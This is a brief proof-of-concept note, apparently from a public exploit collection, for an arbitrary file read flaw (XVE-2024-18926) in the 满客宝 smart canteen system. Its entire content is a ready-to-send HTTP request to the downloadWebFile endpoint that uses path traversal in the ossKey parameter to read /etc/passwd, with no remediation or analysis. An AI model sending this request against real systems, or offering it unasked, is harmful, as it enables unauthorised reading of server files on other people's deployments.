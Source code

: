 # 满客宝智慧食堂系统downloadWebFile存在任意文件读取漏洞(XVE-2024-18926)



## poc

```java
GET /base/api/v1/kitchenVideo/downloadWebFile.swagger?fileName=a&ossKey=/../../../../../../../../../../../etc/passwd HTTP/1.1
Host：
```

